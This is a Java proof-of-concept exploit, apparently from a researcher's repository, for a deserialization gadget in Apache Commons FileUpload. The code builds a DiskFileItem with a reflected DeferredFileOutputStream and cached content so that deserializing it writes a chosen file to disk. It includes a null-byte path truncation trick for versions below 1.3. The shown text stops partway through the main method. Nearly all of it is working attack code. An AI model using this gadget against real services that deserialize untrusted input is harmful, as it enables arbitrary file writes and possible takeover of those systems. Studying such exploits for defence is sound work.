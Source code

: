 # POC
```java
package org.h3rmesk1t.FileUpload;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/15 9:02 下午
 */
public class FileUploadExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void main(String[] args) throws Exception {

        // 创建文件写入目录 File 对象, 以及文件写入内容.
        byte[] bytes = "Hello, H3rmesk1t".getBytes(StandardCharsets.UTF_8);

        // 1.3 版本以下, 可以使用 \0 截断
        File repository = new File("/Users/h3rmesk1t/Desktop/FileUpload/hello.txt\0");

        // 1.3.1 及以上版本, 只能指定目录
        // File File repository = new File("/Users/h3rmesk1t/Desktop/FileUpload");

        // 创建 dfos 对象.
        DeferredFileOutputStream deferredFileOutputStream = new DeferredFileOutputStream(0, repository);

        // 使用 repository 初始化反序列化的 DiskFileItem 对象.
        DiskFileItem diskFileItem = new DiskFileItem(null, null, false, null, 0, repository);

        // 序列化时 writeObject 要求 dfos 不能为 null.
        Field dfosFile = DiskFileItem.class.getDeclaredField("dfos");
        dfosFile.setAccessible(true);
        dfosFile.set(diskFileItem, deferredFileOutputStream);

        // 反射将 cachedContent 写入.
        Field cachedContentField = DiskFileItem.class.getDeclaredField("cachedContent");
        cachedContentField.setAccessible(true);
```